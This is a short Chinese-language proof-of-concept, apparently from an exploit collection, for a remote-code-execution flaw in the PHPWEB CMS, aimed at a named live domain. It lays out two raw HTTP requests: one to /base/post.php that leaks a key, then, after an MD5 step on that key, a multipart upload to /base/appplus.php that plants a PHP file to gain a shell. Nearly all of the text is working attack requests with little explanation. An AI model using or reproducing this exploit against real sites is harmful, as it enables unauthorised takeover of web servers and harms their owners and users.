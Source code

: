# PHPWEB RCE

#### 1.首先，先post发包获取值

POST /base/post.php HTTP/1.1
Host: www.sdyycm.com
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:18.0) Gecko/20100101 Firefox/18.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

act=appcode

#### 2.获取    `k=504871bc9e70a836ae5ee70e69bde615&t=1578585276`  k的值

>    然后md5加密32位k的值+a  `504871bc9e70a836ae5ee70e69bde615a(504871bc9e70a836ae5ee70e69bde615+a` 加密之后的值为  `d950d53f648925e1c5ce8dc8bd6e8181`之后post包getshell ,post包m字段内容就是这个md5加密之后的值

### poc

```
POST /base/appplus.php HTTP/1.1
Host: www.sdyycm.com
Content-Length: 711
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary92Ek3CIGduLPoRLt
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="file"; filename="123.php"
Content-Type: application/octet-stream

asdasda
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="t"

a
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="m"

d950d53f648925e1c5ce8dc8bd6e8181
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="act"

upload
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="r_size"

7
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="submit"

getsell
------WebKitFormBoundary92Ek3CIGduLPoRLt--
```

